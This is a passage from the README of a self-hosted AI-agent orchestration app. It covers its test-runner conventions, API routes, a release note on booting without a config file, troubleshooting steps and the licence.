- **A file that cannot run one of its checks prints `SKIP:` with the reason — and the runner repeats it.** A skip should mean *this machine cannot do it* — no `bash` to drive `setup-token.sh`, no `python` for the audit checks, no `curl` extension, no symlinks on Windows — and never *this checkout is missing something only the operator has*. A test that needs a fixture **builds** it: `apacheGuards.test.php` writes a throwaway copy of the app into the web root, asserts against it and removes it, and `guards.test.php` uses `storage/models.json`, which ships with the app, rather than a session transcript only the operator has. The runner re-prints those `SKIP:` lines under the file's result and totals them, because otherwise *"this file skipped two of its checks"* looks exactly like *"this file had two checks"* — which is how a fresh clone quietly ran 18 fewer assertions than the machine they were written on, and still reported green.
- **A suite that cannot run fails the command** instead of being quietly skipped: with no `php` on PATH you get `PHP suite did not run` and exit `1`. Point `PHP_BINARY` at the binary if it lives somewhere unusual.
- **No internet and no browser.** The JS tests import the real modules (`tools.js`, `utils.js`, `nativeTools.js`) straight into Node; the PHP ones use a temporary sandbox root and a local stdio MCP mock. The only servers are the ones the three files that need one start for themselves, each on a loopback port whose walk starts from its own process id (see the port note above) — `php -S` for `serve.php`'s own router, and the local Apache for the shipped `.htaccess` files — and each shuts its server down when it finishes. `nginxGuards.test.php` starts nothing at all: it lifts the `location` regexes out of `nginx.example.conf` and runs them through PCRE, which is the engine nginx matches with. One Apache detail it has to handle: Apache reads `.htaccess` from directories **above** `DocumentRoot` too, so a copy of the app nested inside another copy would have the parent's file parsed as server config (`<IfModule not allowed here`) and answer `500` to everything — which is why the generated config pins every ancestor to `AllowOverride None` and leaves only the shipped files in play.
- **A pre-commit hook runs the fresh-copy check on what you are committing.** `.githooks/pre-commit` calls `tests/freshClone.php --index`, so the copy is the **staged** snapshot and not the working tree — a half-staged commit is checked as the commit it will actually be. Turn it on once per clone with `git config core.hooksPath .githooks` (nothing in a repo can install a hook into someone's `.git`), skip one commit with `git commit --no-verify`, and know that it costs about **31 seconds** here — `took: 30.7s` measured — which is what the check costs. A cold machine is slower: the copy is 327 files, and a scanner reading them fresh is part of the price. Neither tool asks you to trust a number, either — every run ends with what it actually cost, on the way past whether it passed or failed: `took: 30.7s  (copy 0.9s, PHP 26.6s, JS 3.2s)`, with the hook's own end-to-end seconds printed beside it. The breakdown says where the money goes, and it is still not where it first looked: the two long files are `programs.test.php` (every look at the process table is a PowerShell start, ~0.65s, and the feature is *about* what that table says) and `setupToken.test.php` (16 real invocations of the recovery script at ~0.8s each, in an environment where python is deliberately broken so php is the engine that gets used) . Serially that made the PHP half the **sum** of the two; running the files at the same time makes it **the slowest file plus a little**, because the longest files are started first and twelve short ones fit around them. Booting Apache, `serve.php` and the MCP mock cost about two seconds between them, and the JS half is about a second. When a suite fails the copy is kept, so the failure can be looked at where it happened.
- **End a test file with its own count**, e.g. `58 passed, 0 failed` — plus `, N skipped` when it had to skip something. The runners read that last line for the per-file summary and the total, and never trust the count of a file that failed. A fresh clone should report the **same** numbers as the machine the tests were written on: `PHP 28 files, 28 passed, 1,263 assertions, 5 skipped` and `JS 31 files, 31 passed, 836 assertions` on both.

> ⚠️ Some tests **skip** instead of pass, and each prints a `SKIP:` line when it does: `sandbox.test.php` skips its git checks when git is missing or its commands are refused in the temporary directory; `guards.test.php` skips if `proc_open` is disabled, no loopback port can be bound, or a checkout has no `storage/sessions/*.json` yet; and `apacheGuards.test.php` skips when there is no Apache to boot — point `ROUTER_HTTPD` at one to run it (its nested-copy checks also skip when no second copy of the app is present). A green run therefore does not cover those cases — read the line, it is not a pass.

> 📋 **Cutting a release?** [RELEASING.md](RELEASING.md) is the checklist: which of the two version numbers to bump, and the **three** places `APP_VERSION` has to change together so a browser cannot mix a new module with an old one.

---

## 🔗 API endpoints

All under `/router/api/…` (or `/api/…`). Every route is token-gated.

<details>
<summary>Full route table and error format</summary>

| Area | Routes |
| --- | --- |
| 🗂️ State / config | `GET·PUT /state`, `GET·PUT /config` (secrets masked on read, restored on write), `GET /models` |
| 💬 Sessions | `GET·POST /sessions`, `GET·PUT·DELETE /sessions/{id}`, `DELETE /sessions/close/{id}` |
| 🤖 Models / relay | `POST /query`, `POST /llm` (relay + stream), `GET /catalog` |
| 🛠️ Sandbox | `GET /sandbox/status`, `POST /sandbox/{search,fetch,read,write,list,glob,grep,str_replace,insert,apply_patch,multi_edit,git,git_commit,http,code,program,tunnels,…}` |
| 🖥️ Programs | `POST /sandbox/program` — `{action:open\|close\|list, name, force}` |
| 🌐 Tunnels | `POST /sandbox/tunnels` — `{action:start\|stop\|status\|save, provider, port}` — operator-only, no agent tool |
| 🧑💻 Shell | `POST /exec`, `GET /exec/allowlist`, `GET /exec/pending`, `POST /exec/decide` |
| 🔌 MCP | `GET·POST /mcp/servers`, `GET /mcp/status`, `POST /mcp/tools`, `POST /mcp/call` |
| 🖥️ MCP server | `POST /mcp-server` (JSON-RPC), `GET·POST /mcp-server/config` |
| 🧪 Lab / proxy | `POST /lab`, `GET /proxies`, `POST /proxy-ping`, `GET·PUT /proxy-active` |
| 📈 Misc | `GET /topology`, `POST /diag`, `GET /backup`, `POST /import`, `GET /export/{id}`, `POST /audio/{speak,transcribe}` |
| 🔁 Updates | `GET /update` (status + cached plan + whether it can install), `GET /update/check` (is a newer release published? cached one hour — `POST` asks now), `POST /update/download` (fetch, verify, diff), `POST /update/discard`, `GET /update/state` (phase, preflight, backups, log tail), `POST /update/backup`, `POST /update/install` (replaces app files), `POST /update/finish` (swap in a file an install had to defer), `POST /update/rollback`. Only `check` and `download` need curl — the rest work offline on files already on disk |

Failures come back as `{"error": "..."}` with HTTP 400 and a message meant for the model, so a refused path reads as *"outside the allowed directories"* rather than a blank 500.

</details>

---

## 🆕 What's new

**Newest first.** Each entry names what shipped in that release; everything older has been folded into the ✨ **What's inside** feature list and the 🔐 **Security** section above, where it stays as reference. The most recent release sits at the top.

### 🩹 v450 — a fresh copy boots without `storage/config.json`

*The file is git-ignored, so no download contains it and the first request writes it — but the write was never checked. On a copy whose `storage/` the web server could not write, it failed silently, the read that followed warned **No such file or directory**, and the app received `null` where a config belongs: an install that was fine except for one folder's owner looked broken, and nothing saved afterwards persisted. It now writes the default, checks that it landed, and hands back the same defaults in memory if it cannot, so a read-only copy boots instead of collapsing. A refusal logs one line naming the folder and the account — the symptom it replaces, settings that quietly revert, reads like a UI bug.*


---

## 🧯 Troubleshooting

- **"PHP's curl extension is not enabled"** → the server was started without the launcher (e.g. a bare `php -S`). Use `start.bat` / `start.sh`, or run `php serve.php --setup`.
- **Every request returns 401** → the **Access token** isn't pasted on this device. The token is per-device; paste it in **Config → Access token**. A **403 `local requests only`** is a different thing: this copy has no token set and is answering this machine only (§21) — run `./setup-token.sh` (Windows: `start.bat -Token`), then paste that token on the phone as well as the PC. If a reverse proxy sits in front, list it in `sandbox.trusted_proxies` (§21), or the 403 will not clear.
- **Phone shows an empty UI or immortal 401s** → a **split-brain** load. Deploy the **whole `ui/` folder** (never single files) and hard-refresh — mixing module versions gives each its own store.
- **Agents "won't use tools"** → check for a **global pre-prompt** that says "reply with ONLY text / N words" — it fights the tool protocol. The tool instructions now override it and the loop re-prompts once, but turning it off is cleanest. A fleet-wide house rule is fine — just remember it **prepends** to each agent's prompt by default (or **replaces** it if you flip the toggle in the editor).
- **An agent's badge says HELD and nothing happens** → it's parked. A **cap** (Config → Limits & Budgets → *Max iterations* / *Max minutes*) held it, or you stopped it by hand. Click **Config → Permissions → RELEASE HELD AGENTS** (or toggle the master switch off and on). To loop forever, set both caps to **`0`** and give the agent a real standing goal — a goal of `idle` gives it nothing to aim at, so it will wander.
- **Always-on stops when you leave the tab** → turn on **Config → Permissions → *Run while tab is hidden*** (it drives the timer from a Web Worker). It is **off by default** so a background loop can't bill you silently.
- **A model returns nothing / "NetworkError"** → on Windows PHP's built-in server is single-threaded; use `start.bat` (Apache) for parallel agents, or `start-php.bat` for one at a time.
- **MCP client gets `missing bearer token` even with a token** → under Apache + PHP-FPM the `Authorization` header is stripped before PHP sees it. Redeploy `api/.htaccess` (shipped): it has `CGIPassAuth On` plus the `RewriteCond %{HTTP:Authorization}` fallback, so `$_SERVER['HTTP_AUTHORIZATION']` is populated. Without that file both are empty. If a proxy/WAF also strips the header, the host must allow it through (nginx: `fastcgi_param HTTP_AUTHORIZATION $http_authorization;`).
- **Local models not connecting** → make sure Ollama/LM Studio is running and reachable (Ollama `:11434`, LM Studio `:1234`).
- **A reply arrives as raw JSON** → the server answered in a shape the app did not recognise, and the last-resort fallback printed the body rather than swallowing it. The `{"output":[{"type":"message","content":…}],"stats":{…}}` envelope is read natively as of **v374** — hard-refresh first, because the newer parsers live in `ui/js/harness.js` and an open tab keeps the old bundle. A body in some other shape still arrives verbatim on purpose: that is how a missing shape gets noticed, and teaching the extractor another one is a few lines in `src/Harness.php` plus its browser copy.

---

## Nothing to cancel

No account, no trial that expires, no seat count, no card on file. One folder, your own keys, and a
fleet that keeps running after you close the tab. Delete the folder and it is gone — that is the
whole cancellation flow.

**[Get it on GitHub ↗](https://github.com/autonomous-loop-studio/Autonomous)** — the install is
`start.bat` or `./start.sh`, and the [five-minute version](#run-it-in-five-minutes) is near the top.

---

## 📜 License

**Apache License 2.0** — see [`LICENSE`](LICENSE) and [`NOTICE`](NOTICE).
Copyright 2026 M. Bryce Hudson.

Use it, fork it, run it at work, build a product on it. If you redistribute it,
keep the copyright notice and the `NOTICE` file. There is no warranty. The one
thing the licence does not require is that you ask me first.

Contributions are accepted under the same license with a
[DCO](CONTRIBUTING.md) sign-off (`git commit -s`).

Made by M. Bryce Hudson


